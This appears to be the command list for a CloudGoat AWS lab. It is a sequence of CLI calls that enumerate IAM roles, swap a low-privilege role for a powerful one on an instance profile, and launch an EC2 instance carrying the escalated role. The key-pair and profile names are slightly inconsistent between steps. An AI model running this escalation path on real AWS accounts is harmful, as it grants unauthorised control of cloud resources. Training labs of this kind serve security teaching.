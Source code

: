 `aws configure --profile Kerrigan`

`aws ec2 describe-instances --profile Kerrigan`

`aws iam list-instance-profiles --profile Kerrigan`

`aws iam list-roles --profile Kerrigan`

`aws iam remove-role-from-instance-profile --instance-profile-name cg-ec2-meek-instance-profile-<cloudgoat_id> --role-name cg-ec2-meek-role-<cloudgoat_id> --profile Kerrigan`

`aws iam add-role-to-instance-profile --instance-profile-name cg-ec2-meek-instance-profile-<cloudgoat_id> --role-name cg-ec2-mighty-role-<cloudgoat_id> --profile Kerrigan`

`aws ec2 create-key-pair --key-name pwned --profile Kerrigan`

`aws ec2 describe-subnets --profile Kerrigan`

`aws ec2 describe-security-groups --profile Kerrigan`

`aws ec2 run-instances --image-id ami-0a313d6098716f372 --iam-instance-profile Arn=<instanceProfileArn> --key-name kerrigan --profile kerrigan --subnet-id <subnetId> --security-group-ids <securityGroupId>`

`aws ec2 describe-instances --region us-east-1`

`aws ec2 terminate-instances --instance-ids <instanceId> --region us-east-1`

